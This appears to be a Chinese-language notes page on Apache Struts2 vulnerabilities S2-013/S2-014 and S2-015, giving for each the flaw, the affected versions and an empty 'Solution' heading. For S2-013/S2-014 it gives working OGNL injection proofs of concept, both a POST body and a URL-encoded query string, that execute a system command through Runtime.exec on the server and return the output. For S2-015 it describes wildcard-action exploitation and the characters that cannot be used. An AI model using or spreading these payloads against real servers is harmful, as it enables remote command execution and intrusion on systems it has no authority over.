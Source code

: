 
#### S02-013 | S02-014 无回显

> Problem:
> 
> Struts2 标签中 <s:a> 和 <s:url> 都包含一个 includeParams 属性，其值可设置为 none，get 或 all，参考官方其对应意义如下：
> 
> ```
> none - 链接不包含请求的任意参数值（默认）
> get - 链接只包含 GET 请求中的参数和其值
> all - 链接包含 GET 和 POST 所有参数和其值
> ```
> 
> 若设置了 includeParams="get" 或者 includeParams="all"，在获取对应类型参数时后端会对参数值进行 OGNL 表达式解析，因此可以插入任意 OGNL 表达式导致命令执行
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.14 (2.3.14.1)
> 
> Solution:
> 

###### POST POC

```
a=1${(%23_memberAccess["allowStaticMethodAccess"]=true,%23a=@java.lang.Runtime@getRuntime().exec('whoami').getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[50000],%23c.read(%23d),%23sbtest=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23sbtest.println(%23d),%23sbtest.close())}
```

###### URI POC

```
?Vulnerability=%25%7B%28%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%29%28%23_memberAccess%5B%27allowStaticMethodAccess%27%5D%3Dtrue%29%28@java.lang.Runtime@getRuntime%28%29.exec%28%22whoami%22%29%29%7D
```

---

#### S02-015 无回显 命令不能包含 / \ " 三种特殊符号

> Problem:
> 
> 漏洞产生于配置了 Action 通配符 *，并将其作为动态值时，解析时会将其内容执行 OGNL 表达式，例如：
> 
> ```
> <package name="S2-015" extends="struts-default">
>     <action name="*" class="com.demo.action.PageAction">
>         <result>/{1}.jsp</result>
>     </action>
> </package>
> ```
> 上述配置能让我们访问 name.action 时使用 name.jsp 来渲染页面，但是在提取 name 并解析时，对其执行了 OGNL 表达式解析，所以导致命令执行。在实践复现的时候发现，由于 name 值的位置比较特殊，一些特殊的字符如 / " \ 都无法使用（转义也不行），所以在利用该点进行远程命令执行时一些带有路径的命令可能无法执行成功。
> 
> Affected Software: 
> 
> Struts 2.0.0 - Struts 2.3.14.2
> 
> Solution:
> 
> 
